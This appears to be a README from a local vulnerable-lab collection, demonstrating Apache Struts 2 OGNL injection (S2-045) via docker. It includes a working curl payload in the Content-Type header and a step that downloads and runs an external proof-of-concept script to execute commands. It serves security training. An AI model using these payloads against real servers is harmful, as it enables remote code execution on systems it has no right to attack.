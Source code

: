 # 5. Apache Struts 2 OGNL Injection
## Subtitle / what it does
Apache Struts allows for injecting malicious Content-Type header which is later evaluated as OGNL Expression Language code. \
If an attacker is able to change security measures by executing appropriate OGNL code first, then there is possibility of regular Code Execution. \
If this vulnerability seem complex, please refer to "Recommended reading" section for useful lectures.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 5-apache-struts-2
docker-compose up -d
```

### Exploit:
```
curl -XPOST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```
### Proxy curl via Burp:
```
curl -XPOST --proxy http://127.0.0.1:8080 -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```

![image](https://user-images.githubusercontent.com/31791455/140393499-ab5e5463-ea74-46c0-a746-c8457c23f773.png)


### Code execution:
The exploit requires unlocking some OGNL features before you can pass from simple code evaluation to full RCE.
Ready to use exploit can be found here: 
```
wget https://raw.githubusercontent.com/Medicean/VulApps/master/s/struts2/s2-045/poc.py
chmod +x ./poc.py
python2 poc.py "http://127.0.0.1:8080" "id"
```

![image](https://user-images.githubusercontent.com/31791455/140393300-96dba119-0002-4c2a-af5b-0a1704484a0a.png)


### Explanation
Apache Struts is a free, open-source framework for creating Java applications. It utilizes native dialect named OGNL (Object-Graph Navigation Language). It can be parsed in form of expressions, which makes related vulnerabilities similar to Server-Side Template Injections (in fact, it works in the same way as SSTIs).

### References and recommended reading
https://portswigger.net/research/server-side-template-injection \
https://mindedsecurity.com/wp-content/uploads/2020/10/ExpressionLanguageInjection.pdf \
https://www.reshiftsecurity.com/ognl-injection-primer-for-java-developers/ \
https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts/ \
https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/struts2/s2-045

